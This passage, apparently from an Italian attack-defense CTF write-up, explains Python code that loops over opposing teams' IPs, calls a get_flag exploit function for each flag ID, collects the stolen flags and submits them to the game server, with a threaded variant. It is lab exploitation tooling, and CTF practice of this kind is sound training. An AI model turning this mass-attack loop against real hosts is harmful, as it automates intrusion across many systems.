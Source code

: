 ```python
		print("\n")

		time.sleep(120)
```

Come summenzionato, la funzione _exploit(flagids)_ si occupa di scorrere tutti gli IP (scartando il NOP TEAM e il proprio TEAM). Per ogni ip si scorrono poi i flagIds. Dunque, per ogni flagId di ogni IP, si richiama la funzione _get\_flag_ che restituirà la flag associata. Questa verrà poi inserita nella lista che comprenderà tutte le flag rubate.

```python
def exploit(flagids):
	flag_list = []
	c = 1
	size = len(flagids[CHALLENGE_NAME])
	for ip in flagids[CHALLENGE_NAME]:
		print(f"{ip}\t-\t{c} / {size} ...")

		if ip == NOP_TEAM or ip == MY_TEAM:
			c += 1
			continue

		for hint in flagids[CHALLENGE_NAME][ip]:
			try:
				flag = get_flag(ip, CHALLENGE_PORT, hint)
				print(flag)
			except Exception as e:
				print("ERR: {}".format(e))
				continue
			if flag not in flag_list:
				flag_list.append(flag)

		c += 1
	return flag_list
```

Infine, ricordiamo che nel main era possibile effettuare anche la chiamata alla funzione *attack_with_threads()*. Questa funzione è stata prevista nel caso in cui l'exploit, per varie ragioni, dovesse essere troppo lento. A differenza di _attack()_, infatti, questa funzione va a richiamare la funzione *exploit_with_threads(flagids)*.

```python
def attack_with_threads():
	global flags
	global threads
	while True:
		flags = []
		threads = []
		print("Running exploit...")

		flagids = requests.get("http://10.10.0.1:8081/flagIds?service={CHALLENGE_NAME}").json()
		# flagids = noFlagIds

		exploit_with_threads(flagids)
		
		print()
		print(flags)

		now = datetime.datetime.now()
		print(f"\nPutting flags (ORA: {now.hour}:{now.minute}:{now.second})...")
		r = requests.put('http://10.10.0.1:8080/flags', headers={'X-Team-Token': TEAM_TOKEN}, json=flags).text
		print(r)

		print("Exploit ok...\n\nRepeat after sleep...")
```
